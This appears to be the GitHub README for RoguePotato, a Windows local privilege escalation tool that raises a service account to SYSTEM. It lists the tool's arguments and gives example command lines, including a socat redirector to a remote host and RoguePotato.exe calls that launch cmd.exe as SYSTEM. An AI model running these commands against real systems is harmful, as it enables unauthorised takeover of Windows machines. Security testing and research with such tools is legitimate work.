

# RoguePotato

Just another Windows Local Privilege Escalation from Service Account to System. Full details at --> https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/

## Usage

``` 

        RoguePotato
        @splinter_code & @decoder_it


Mandatory args:
-r remote_ip: ip of the remote machine to use as redirector
-e commandline: commandline of the program to launch


Optional args:
-l listening_port: This will run the RogueOxidResolver locally on the specified port
-c {clsid}: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-p pipename_placeholder: placeholder to be used in the pipe name creation (default: RoguePotato)
-z : this flag will randomize the pipename_placeholder (don't use with -p)


Examples:
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
        
```  

## Demo


